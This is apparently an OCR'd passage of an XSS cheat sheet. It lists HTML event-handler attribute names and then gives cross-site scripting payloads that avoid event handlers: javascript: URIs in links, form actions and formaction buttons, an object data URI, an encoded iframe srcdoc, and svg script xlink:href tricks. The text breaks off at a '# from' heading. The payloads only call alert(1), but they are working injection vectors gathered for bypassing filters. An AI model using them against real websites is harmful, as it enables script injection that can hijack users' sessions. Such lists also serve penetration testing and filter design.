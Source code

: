 ```html
onresize
onscroll
onscrollend
onsearch
onseeked
onseeking
onselect
onselectionchange
onselectstart
onshow
onstart
onsubmit
ontimeupdate
ontoggle
ontoggle(popover)
ontouchend
ontouchmove
ontouchstart
ontransitioncancel
ontransitionend
ontransitionrun
ontransitionstart
onunhandledrejection
onunload
onvolumechange
onwebkitanimationend
onwebkitanimationiteration
onwebkitanimationstart
onwebkittransitionend
onwheel
```

* Didn't Work ? Try [XSS Without Event Handlers](https://brutelogic.com.br/blog/xss-without-event-handlers/)

```html
# href  
<a href=javascript:alert(1)>click  
<math><brute href=javascript:alert(1)>click  
----------------------------------------  
# Action  
<form action=javascript:alert(1)><input type=submit>  
<isindex action=javascript:alert(1) type=submit value=click>  
-----------------------  
# formaction
**<form><button formaction=javascript:alert(1)>click  
<form><input formaction=javascript:alert(1) type=submit value=click>  
<form><input formaction=javascript:alert(1) type=image value=click>  
<form><input formaction=javascript:alert(1) type=image src=http://brutelogic.com.br/webgun/img/youtube1.jpg>  
<isindex formaction=javascript:alert(1) type=submit value=click>  
---------------------------  
# data
**<object data=javascript:alert(1)>  
---------------------------------------------  
# srcdoc
<iframe srcdoc=%26lt;svg/o%26%23x6Eload%26equals;alert%26lpar;1)%26gt;>  
----------------------------------------------------  
# xlink:href
<svg><script xlink:href=data:,alert(1)></script>  
<svg><script xlink:href=data:,alert(1) />
<math><brute xlink:href=javascript:alert(1)>click  
-------------------------------------------------  
# from
```